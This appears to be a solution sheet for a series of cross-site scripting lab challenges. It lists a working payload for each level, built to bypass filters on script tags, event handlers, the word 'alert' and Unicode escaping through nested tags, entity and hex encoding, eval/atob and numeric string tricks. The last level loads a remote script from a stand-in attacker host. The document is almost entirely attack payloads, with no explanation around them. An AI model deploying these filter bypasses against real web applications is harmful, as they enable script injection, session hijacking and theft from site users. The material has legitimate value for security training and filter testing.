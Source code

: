 ### 2 - bypass script
```js
<script<script>>alert("l33t")</script>
```

### 3 - no script allowed
```js
<img/src onerror=alert("l33t")>
```

### 4 - no script / no ON allowed
```js
<svg><script>alert('l33t')
```

### 5 - no ON, no functions
```js
<svg><script>alert&lpar;'l33t'&rpar;
```

### 6 - no alert 
```js
<script>\u0061lert('l33t')</script>
```

### 7 - No Unicode escaping / no alert
```js
<script>eval('\x61lert(\'l33t\')')</script>
```

### 8 - No alert / no products
```js
[NL]eval('x61lert(\'l33t\')'
</Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`l33t` //>#
</Title/</script/><img src=x onerror="\u0061lert('l33t')"/>#
</script><svg onload="eval(atob('YWxlcnQoJ2wzM3QnKQ=='))"> 
```

### 9 - stronger bypass - no alert / no products
```js
[\u2028]eval('x61lert(\'l33t\')'
</Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`l33t` //>#
</Title/</script/><img src=x onerror="\u0061lert('l33t')"/>#
</script><svg onload="eval(atob('YWxlcnQoJ2wzM3QnKQ=='))"> 
```

### 10 - no string / no alert / 
```js
<script>eval(8680439..toString(30))(983801..toString(36))</script>
```

### 11 - no scripts / dont break src tag
```js
http://11.xss.labs%2f@hacker.site/X.js
```

